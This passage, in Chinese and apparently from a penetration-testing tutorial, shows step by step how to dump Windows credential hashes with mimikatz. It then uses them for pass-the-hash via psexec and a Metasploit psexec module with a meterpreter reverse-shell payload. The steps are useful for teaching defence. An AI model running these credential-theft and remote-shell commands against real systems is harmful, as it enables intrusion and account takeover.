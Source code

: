 在 PowerShell 控制台中，使用命令`expand-archive -path`来解压`mimikatz_trunk.zip`的内容。现在你可以启动`mimikatz`。第一步之一是验证运行命令提示符的用户是否具有管理员权限。如果有，你在运行`privilege::debug`命令时将看到以下结果：

![](img/c5b61ae2-2925-4b07-9edc-4f9a6ccb6802.png)

下一步是转储所有活动用户、服务及其相关的 NTLM/SHA1 哈希值。这是一个非常重要的步骤，因为它将让你了解你可以尝试攻击的用户数量，从而继续你的任务。

为此，使用命令`sekurlsa::logonpasswords`：

![](img/ff26de25-f529-4053-8736-c0078812629a.png)

如果目标计算机运行的是 Windows 7 或更早版本，你可能会看到实际的密码以明文显示。我们之所以说“可能”，是因为如果目标计算机安装了 MS16-014 更新，Windows 会在 30 秒后强制清除泄露的登录会话凭据。

继续执行攻击，因为你现在已经获得了哈希值。攻击可以在 Windows 系统上使用 mimikatz 和`psexec`工具（你之前下载的那个）来执行。在这个场景中，我们将使用以下命令作为示例：

```
sekurlsa::pth /user:yuri /domain:wdw7 /ntlm:4dbe35c3378750321e3f61945fa8c92a /run:".psexec \yuri -h cmd.exe"  
```

命令提示符将以该特定用户的上下文打开。如果该用户具有管理员权限，那么攻击就算成功。攻击的执行也可以通过在运行 Kali 的计算机上使用 Metasploit 来完成。命令序列如下所示：

```
> use exploit/windows/smb/psexec
> set payload windows/meterpreter/reverse_tcp
> set LHOST 192.168.1.99
> set LPORT 4445
> set RHOST 192.168.1.15
> set SMBUser Yuri
> set SMBPass 4dbe35c3378750321e3f61945fa8c92a  
```
